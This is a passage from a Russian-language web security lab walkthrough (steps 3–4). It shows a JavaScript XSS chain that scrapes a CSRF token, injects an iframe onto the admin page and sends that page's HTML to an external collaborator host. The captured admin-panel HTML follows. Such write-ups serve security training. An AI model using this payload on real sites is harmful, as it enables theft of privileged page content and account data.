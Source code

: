**Шаг 3**

Теперь получаем исходный код страницы администратора

```html
<script>
function xss(url, text, vector) {
	location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1];
}

function fetchUrl(url, collaboratorURL){
	fetch(url).then(r=>r.text().then(text=>
	{
		xss(url, text, '"><iframe src=/admin onload="new Image().src=\''+collaboratorURL+'?code=\'+encodeURIComponent(this.contentWindow.document.body.innerHTML)">');
	}
	))
}

fetchUrl("http://192.168.0.156:8080", "http://cn3ntyyg9ghkaa9bsk1273anieo7cx0m.oastify.com");
</script>
```

```html
...
        <div theme="">
            <section class="maincontainer">
                <div class="container is-page">
                    <header class="navigation-header">
                        <section class="top-links">
                            <a href="/">Home</a><p>|</p>
                            <a href="/admin">Admin panel</a><p>|</p>
                            <a href="/my-account?id=administrator">My account</a><p>|</p>
                        </section>
                    </header>
                    <header class="notification-header">
                    </header>
                    <form style="margin-top: 1em" class="login-form" action="/admin/delete" method="POST">
                        <input required="" type="hidden" name="csrf" value="sLoLq9p2CqfnZtvoklfpDQXnZkszZmGa">
                        <label>Username</label>
                        <input required="" type="text" name="username">
                        <button class="button" type="submit">Delete user</button>
                    </form>
                </div>
            </section>
        </div>
...
```

**Шаг 4**
